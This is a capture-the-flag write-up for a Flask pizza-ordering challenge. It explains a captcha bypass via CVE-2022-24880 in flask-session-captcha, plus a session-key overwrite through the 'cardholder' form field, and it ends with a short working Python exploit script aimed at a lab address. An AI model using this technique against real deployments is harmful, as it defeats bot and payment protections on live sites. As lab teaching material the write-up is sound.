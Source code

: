 # Pizza Order
![date](https://img.shields.io/badge/date-24.01.2023-brightgreen.svg) 

## Challenge
Bad news, the local pizza dealer has implemented some sort of new captcha mechanism which seems impossible to solve, can you help us order pizza?

http://10.212.138.23:48575

Flag format: S2G{...}

## Solution
The website is a Flask application that lets users order pizza. However, the captcha is impossible to read, and hence, ordering pizza becomes impossible. So to solve this challange we need to bypass both captcha and payment.

The application is using flask-session-captch on version 1.2.0. This version has a captcha validate bypass vulnerability, [CVE-2022-24880](https://github.com/advisories/GHSA-7r87-cj48-wj45).

The function `captcha.validate()` returns `None` if no value was passed. Since the challange checks `captcha.validate() == False`, the user could send a request with an empty form to bypass it.

Secondly, we want `if session['user_type'] == 'private':` to be false. That means we need to change `session` to something else. The user can set the cardholder-field to `user_type`, which will overwrite the previous value, and the website will spit out the flag.
```python
session[request.form.get('cardholder')] = {'card-number':request.form.get('cardNumber'),'expiration-date':request.form.get('expirationDate'), 'cvv':request.form.get('cvv')}
```
**Flag:** S2G{d41d8cd98f00b204e9800}

### Python
We need to specify the session cookie to validate the captcha, else we will recieve "Invalid captcha".

See [exploit.py](./exploit.py).
```python
import requests
import re

url = "http://10.212.138.23:48575"
headers = {
    "Cookie": "session=anything",
}

payload = {
    "cardholder": "user_type",
}

response = requests.post(url, headers=headers, data=payload)

pattern = re.search("S2G", response.text)
flag = pattern.group() + response.text[pattern.end():pattern.end()+24].strip()

print(flag)
```

